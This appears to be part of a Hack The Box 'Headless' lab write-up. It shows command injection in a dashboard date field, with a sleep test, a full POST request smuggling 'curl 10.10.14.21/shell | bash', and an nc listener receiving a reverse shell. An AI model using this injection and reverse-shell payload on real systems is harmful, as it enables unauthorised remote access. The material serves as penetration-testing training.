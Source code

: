 ```
date=2023-09-15;sleep+5                                               
```

# RCE Reverse Shell - Dashboard

Below is a copy of the full request to obtain a reverse shell. A bash reverse shell was used as the payload. The payload was hosted on a python web server which will be downloaded with curl and piped into bash. 

This method of attack is beneficial for several reasons. Firstly it makes debugging the attack easier because if you get a reponse on the web server you know RCE is working. If the reverse shell fails to return after receiving the request you know there is a problem with the payload or there are extra protections in place on the victims end such as firewalls or anti-virus. Secondly it limits the amount of potential bad characters in the initial request increasing the odds of it working.

```
┌──(kali㉿kali)-[~/hackthebox/headless]
└─$ cat dashboard-rce 
POST /dashboard HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1

date=2023-09-15;curl+10.10.14.21/shell+|+bash                                                   
```

# Reverse Shell - dvir user

Reverse shell returned as the `dvir` user. Python was already installed on the victims machine and used to upgrade the shell to a full TTY.

```
┌──(kali㉿kali)-[~/hackthebox/headless]
└─$ nc -lvnp 9001            
listening on [any] 9001 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.11.8] 45602
bash: cannot set terminal process group (1353): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ id
id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```
